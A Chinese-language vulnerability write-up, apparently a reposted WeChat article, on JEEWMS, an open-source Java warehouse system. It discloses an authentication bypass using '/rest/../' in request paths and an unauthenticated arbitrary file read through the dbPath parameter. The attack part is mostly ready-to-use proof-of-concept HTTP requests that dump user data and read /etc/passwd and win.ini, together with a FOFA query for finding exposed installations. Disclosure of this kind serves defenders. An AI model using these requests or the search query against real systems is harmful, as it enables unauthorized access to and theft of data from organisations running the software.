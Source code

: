 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ylOuWc8elD2EtM-1LiJp9g)

**1、描述**

  

jeewms 是由灵鹿谷科技主导的开源项目，WMS 在经过多家公司上线运行后，为了降低物流仓储企业的信息化成本，决定全面开源，是基于 JAVA 的 web 后台。经过代码审计发现其存在权限绕过漏洞和未授权任意文件读取漏洞。

  

  

  

  

  

**2、影响范围**

  

JEEWMS 全版本  

  

  

  

  

  

**3、漏洞复现**

  

fofa 语句：body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro" && body=" 仓 "

  

  

  

  

  

  

演示一下

一、权限绕过漏洞

漏洞处于代码 org.jeecgframework.core.interceptors.AuthInterceptor 处，

jeewms 使用 JAVA 拦截器做的权限控制，存在被绕过漏洞，代码如下：

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2ruoZHO1lto1DaNGzQbEEmkRFnxUzEviaaKficsKNzlMfJTiatyeTjW4hhww/640?wx_fmt=png)

可以看到第一个 if 判断中只要 0-5 个字符串是 rest / 就返回 true，意思是无需认证

由于是测试站放在站群上，因此 POC 是 / wmstest/rest/../ 正常 / rest/../ 即可

**正常数据包**：

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2ruib3hR7nFKBDbsvJf9Wm75fo5U2nxiaiaibsQCbc1ZhBHyPLqE9PqmMR9Yw/640?wx_fmt=png)

**删除 Cookie 数据包**

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2ruaOppicjbDbSRn4VJ48aUdH3Z7dydeav8mXjrkvM9MFRFqLVEbUJbYJA/640?wx_fmt=png)

**使用 POC 数据包**

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2ru5joRs9FImuUVgpelcpyKCrFhyib8swTrzdDIXdU3CdIvdnvPsbd8akQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2rufhmm3ibibicD31sBztfsh4mEvTDQp7kFpKwjSSehQu5TrbXF79RPmEwAQ/640?wx_fmt=png)

**可以看到已经绕过登录获取到数据，数据包:**

**POC：  
**

```
POST /wmstest/rest/../BiController.do?dayCount&reportType=line HTTP/1.1
Host: www.jeewms.cn
Content-Length: 0
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 Edg/85.0.564.63
X-Requested-With: XMLHttpRequest
Origin: http://www.jeewms.cn
Referer: http://www.jeewms.cn/wmstest/BiController.do?homebi
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
```

```
POST /wmstest/rest/../userController.do?datagrid&field=id,userName,realName,userOrgList.tsDepart.departname,userKey,createBy,createDate,updateBy,updateDate,status, HTTP/1.1
Host: www.jeewms.cn
Content-Length: 58
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 Edg/85.0.564.63
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.jeewms.cn
Referer: http://www.jeewms.cn/wmstest/userController.do?user&clickFunctionId=8a8ab0b246dc81120146dc8180df001f
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

page=1&rows=10&sort=createDate%2CuserName&order=asc%2Cdesc
```

二、未授权任意文件读取漏洞  

漏洞处于 org.jeecgframework.web.system.controller.core.SystemController

代码如下：  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2ruTXqyqfiadhhscXRbmAXKMfJfKRVj9OZVmQdEGRmniby74srSLIGfy6Qw/640?wx_fmt=png)

可以看到 dbpath 可被控制，最终读取路径为：系统配置路径 + dbpath

这样的读取方式可被../../ 控制路径，造成任意文件读取，同时该接口未做权限验证，可未授权任意文件读取。

POC：

```
http://x.x.x.x:8088/systemController/showOrDownByurl.do?down=&dbPath=../Windows/win.ini 
```

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2ru9Y6ldXJLalpmGcP8bWRKncX8JSibnMYoontTNoSp8hRvomWmKFNK4HQ/640?wx_fmt=png)

```
http://x.x.x.x:8020/systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd 
```

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2ruObQUgrWo9NrBUXohhMTpTiar2eEsNR9te4UIoGxgDsHviacdjnruKF7w/640?wx_fmt=png)

公众号

最后再给大家介绍一下漏洞库，地址：wiki.xypbk.com  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2ruC6mJg4KJiaTLnzne7w4qraaB6SO9iaCpBDufyKficZobmJolBlnFicWHpw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2rur7RMzhZOzp8XKibxMGTkJY5F2EBexNxIA3pibcAuYr24WYhfm2zQ46Og/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCDtzBMvLolYIMwXwibmu2ruib8N3ggtVKgjpxPP4kQrWDla13YBSeukib04BuFxhB7Q3UowJKI0iagicQ/640?wx_fmt=png)

漏洞库内容来源于互联网 && 零组文库 &&peiqi 文库 && 自挖漏洞 && 乐于分享的师傅，供大家方便检索，绝无任何利益。

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

若有愿意分享自挖漏洞的佬师傅请公众号后台留言，本站将把您供上，并在此署名，天天烧香那种！